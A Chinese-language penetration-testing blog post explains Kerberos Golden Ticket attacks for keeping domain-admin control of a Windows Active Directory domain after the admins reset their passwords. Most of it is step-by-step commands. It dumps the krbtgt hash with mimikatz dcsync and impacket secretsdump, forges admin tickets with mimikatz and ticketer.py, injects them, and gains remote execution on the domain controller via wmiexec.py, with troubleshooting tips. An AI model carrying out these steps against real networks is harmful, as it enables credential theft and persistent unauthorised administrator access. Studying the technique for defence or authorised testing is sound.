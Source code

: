 ```yaml
---
layout: post
title: Pass the Ticket——Golden Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。今天主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

{:refdef: style="text-align: center;"}
![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true)
{: refdef}




图片来源于:https://image.slidesharecdn.com
### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt的密码hash，则可以伪造任意用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  


### \#0x02 Golden Ticket利用之mimikatz

##### 一、获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID   
3、域内机器普通用户权限  

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

##### 二、伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上伪造域管Ticket。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
  
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true)  
没有访问的权限  

3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  

4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```

5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 
导入成功  

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 
Pass the Ticket成功，可以以非域管账户执行域管命令，执行其他域管命令请参照【参考】  

### \#0x03 Golden Ticket利用之ticketer（跨平台利用）
在横向移动的过程中，使用mimikatz利用Golden Ticket时有以下限制：  
1、需要一台windows机器的权限且安装mimikatz  
2、使用mimikatz需要免杀  
在已控的可与域内主机（如域控）通信的linux机器上使用impacket的ticketer等工具可解决上面的问题。  

##### 一、需要的条件
* krbtgt account NT hash
* domain SID
* domain FQDN
* user to impersonate（一般选择域管）

用到的工具主要为impacket的ticketer.py  

##### 一、获取伪造Ticket所需数据
方法一（获取krbtgt hash）：  
```
secretsdump.py domainname/domain_admin_username@dc_ip -hashes domain_admin_username_lmhash:domain_admin_username_nthash -just-dc
```
方法二（获取krbtgt hash）：  
参见 [导出域内所有用户hash](https://pythonpig.github.io/2018/12/09/导出域内所有用户hash/)

方法三：  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```

##### 二、伪造Golden Ticket
利用ticketer.py生成伪造的ticket  
```
ticketer.py -nthash krbtgt_account_NT_hash -domain-sid S-1-5-21-168xxxxxx-367xxxxxxx-3458xxxxx -domain domain_name user_to_impersonate
``` 
如  
```
ticketer.py -nthash 11111111111111111111111111111 -domain-sid S-1-5-21-11111111-222222222-33333333 -domain testdomainname Administrator
```
执行后生成user_to_impersonate.ccache
##### 三、导入并利用
```
1、export KRB5CCNAME=/absolute_path/user_to_impersonate.ccache
2、wmiexec.py -no-pass -k domain_name/user_to_impersonate@dc_hostname_or_dc_ip -dc-ip dc_ip
```
注意：  
1、这里的domain_name一定与生成ticket是用到的domain_name完全相同，否则会出现错误“[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)”  
2、这里的dc_hostname_or_dc_ip可以是目标主机的hostname也可以是目标主机的ip地址，使用ip地址是可能会出现错误“[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)”，此时应尝试使用目标主机的hostname，若发起攻击的linux无法解析hostname为ip地址时，请在/etc/hosts文件中添加ip地址和hostname的对应关系。  
3、如果出现Kerberos SessionError: KRB_AP_ERR_BAD_INTEGRITY(Integrity check on decrypted field failed)错误，大概率是krbtgt的hash错误或者设置环境变量KRB5CCNAME错误。  

impacket中的不少工具都支持上述方式利用Golden Ticket。  
注：因为利用Golden Ticket的这台linux机器并不是域内机器，与域控可能存在时间不同步的问题，一般当时间差大于5分钟时会发生"Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)"错误，解决办法如下：  
1、ntpdate dc_ip （与域控进行时间同步，域控一般作为ntp server）  
或  
2、获取域内主机或域控的时间,调整linux机器的时间与域控时间差在5分钟以内：date -s 20:08:00    

### \#0x04 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
* [How To Pass the Ticket Through SSH Tunnels](https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/)

